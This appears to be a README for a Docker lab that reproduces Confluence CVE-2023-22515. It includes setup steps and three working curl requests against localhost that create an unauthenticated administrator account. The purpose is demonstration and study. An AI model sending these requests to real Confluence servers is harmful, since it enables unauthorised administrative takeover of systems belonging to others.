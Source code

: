 # Confluence CVE-2023-22515 OGNL vulnerability

This vulnerability affects Confluence Server and Confluence Data Center. It allows an unauthenticated attacker to create an administrator Confluence user.

Credits for the proof-of-concept fully go to Rapid7: https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis


## Running the application

Run it:

```
docker-compose up
```

It takes a few minutes to start up. When you see the line `Server startup in [xx] milliseconds` in the logs:

1. Browse to http://localhost:8090
2. Get a trial license (this won't work without one)
3. It'll take a while to configure, make sure you have 3-4 GB of RAM
4. Start with an "Empty Site"
5. Click on "Manager users and groups in Confluence"
6. Set a sample administrator username and password

## Exploitation steps

Taken from https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis

```
curl -vk "http://localhost:8090/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false"

curl -vk -X POST -H "X-Atlassian-Token: no-check" --data-raw "username=malicious-user&fullName=malicious&email=malicious%40localhost&password=malicious&confirm=malicious&setup-next-button=Next" http://localhost:8090/setup/setupadministrator.action

curl -vk -X POST -H "X-Atlassian-Token: no-check" http://localhost:8090/setup/finishsetup.action
```

After that, browse to the [list of users](http://localhost:8090/admin/users/showallusers.action?reset=true) and you'll notice that a new, malicious user has been created:

![](./screenshot.png)